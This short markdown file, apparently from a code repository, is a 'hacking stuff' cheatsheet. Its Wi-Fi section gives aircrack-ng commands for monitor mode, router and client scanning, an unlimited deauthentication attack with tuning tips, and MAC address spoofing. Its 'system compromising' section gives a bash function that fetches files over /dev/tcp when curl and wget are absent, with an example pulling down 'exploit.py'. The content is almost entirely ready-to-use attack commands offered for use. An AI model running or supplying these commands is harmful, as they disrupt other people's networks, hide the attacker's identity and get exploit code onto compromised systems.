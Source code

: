# Cheatsheet for hacking stuff

## Networking stuff

### Show my wireless card name
`iwconfig`

### Put wireless card on monitor mode
`airmon-ng start {card name}`

### Show routers in range
`airdump-ng {card name}`
- PWR column is showing signal strenght
- Note also the channel and BSSID of the router

### Show devices connected to a specific router
`airodump-ng {card name} --bssid {router BSSID} --channel {router channel}`
- router is also included there

### Create deauth attack
`aireplay-ng --deauth 0 -c {devices MAC} -a {routers MAC ADDRESS} {card name}`
- possibility to include more routers and more MAC adresses
- 0 means infinite number of deauth messages
- TIP of the day: put for example 50 insted of 0 and replay it with 1 second delay

### Change MAC address
```
sudo ifconfig {interface} down
sudo ifconfig {interface} hw ether {MAC address}
sudo ifconfig {interface} up
```

## System compromising

### curl or wget without the function itself
```bash
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
 
  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
 
 
# USAGE: __curl http://www.example.com/exploit.py > sploitz.py
```
